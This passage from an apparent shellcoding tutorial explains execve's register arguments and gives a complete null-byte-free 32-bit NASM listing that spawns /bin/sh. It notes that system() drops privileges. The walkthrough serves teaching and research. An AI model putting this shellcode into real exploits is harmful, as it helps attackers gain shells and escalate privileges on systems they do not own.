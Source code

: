 ![man execve](/assets/images/12/2021-10-11_13-03.png){:class="img-responsive"}    

Note: `system("/bin/sh")` would have been a lot simpler right? Well the only problem with that approach is the fact that `system` always drops privileges. 

So, `execve` takes 3 arguments:
* The program to execute - EBX
* The arguments or `argv(null)` - ECX
* The environment or `envp(null)` - EDX

This time, we'll directly write the code without any null bytes, using the stack to store variables (`example3.asm`):
```nasm
; run /bin/sh and normal exit
; author @cocomelonc
; nasm -f elf32 -o example3.o example3.asm
; ld -m elf_i386 -o example3 example3.o && ./example3
; 32-bit linux

section .bss

section .text
  global _start   ; must be declared for linker

_start:           ; linker entry point

  ; xoring anything with itself clears itself:
  xor eax, eax    ; zero out eax
  xor ebx, ebx    ; zero out ebx
  xor ecx, ecx    ; zero out ecx
  xor edx, edx    ; zero out edx

  push eax        ; string terminator
  push 0x68732f6e ; "hs/n"
  push 0x69622f2f ; "ib//"
  mov ebx, esp    ; "//bin/sh",0 pointer is ESP
  mov al, 0xb     ; mov eax, 11: execve
  int 0x80        ; syscall
```